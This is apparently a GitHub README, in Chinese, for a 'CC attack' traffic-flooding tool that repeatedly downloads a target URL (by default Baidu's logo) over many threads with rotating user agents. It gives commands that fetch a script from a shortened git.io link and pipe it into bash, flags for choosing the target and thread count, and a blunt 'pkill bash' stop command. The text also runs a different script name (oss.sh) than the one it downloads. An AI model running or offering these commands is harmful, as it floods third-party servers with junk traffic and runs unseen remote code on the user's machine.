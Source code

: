 ## 多线程刷流量 Download cc attack
  
  会自动更换UA头，多线程下载
 
#### 下载安装:
  
  默认会刷百度logo
``` bash
  wget -O dcc.sh git.io/Jftkm
  bash dcc.sh &
```

&nbsp;

  如果需要改为别的地址可以这样
 
```shell
  wget -O dcc.sh git.io/Jftkm
  bash dcc.sh "https://www.baidu.com" &  #指定url
  bash oss.sh "https://www.baidu.com" 8 & #指定url和8线程
```

&nbsp;
  
#### 查看使用流量（执行此命令起）

  apt install -y iftop && iftop -i eth0
  yum install -y iftop && iftop -i eth0
  
#### 如果网卡不是eth0可以改一下，看网卡名可以用这条命令
  apt insatll -y net-tools && ifconfig
  yum insatll -y net-tools && ifconfig

#### 结束命令
  pkill bash && pkill wget
